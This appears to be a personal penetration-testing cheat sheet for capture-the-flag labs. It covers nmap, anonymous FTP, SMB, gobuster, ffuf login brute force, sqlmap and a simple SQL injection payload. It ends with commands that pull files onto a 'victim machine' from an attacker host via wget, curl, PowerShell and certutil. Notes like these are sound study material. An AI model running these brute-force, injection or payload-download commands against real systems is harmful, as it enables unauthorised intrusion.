 
- [Port Scanning](#ps)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)

## Port Scanning <a name='ps'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-p-`` scans all ports. 
- `-p <port>` scans only the specified port number. 
-  `-- open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out
````

- To find subdomains:
```bash
#wordlist example: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

### Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

### Python3

### Impackets

```bash 
# between *nix os

# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>

#===========================================================#

# from linux to windows

# on the attacker machine
# creates a anonymous login
sudo smbserver.py <share-name> <linux-path> -smb2support

# on the victim machine
copy \\<attacker-ip>\<share-name>\<file> <copy-path-in-windows>
# mount the share in windows
net use x: \\<attacker-ip>\<share-name> /user:<user-name> <password>
copy x:\<file> <copy-path-in-windows>

# from external url
# sometimes fails
powershell -c (new-object System.Net.WebClient).DownloadFile('http://<attacker-ip>/<file>','<download-path-in-windows>')

# works mostly
#@alias
iwr -uri 'http://<attacker-ip>/<file>' -o '<download-path-in-windows>'
#@cmdlet
powershell.exe -command Invoke-WebRequest -Uri 'http://<attacker-ip>/<file>' -OutFile '<download-path-in-windows>'

# using certutil
certutil -urlcache -f 'http://<attacker-ip>/<file>' '<download-path-in-windows>'
```


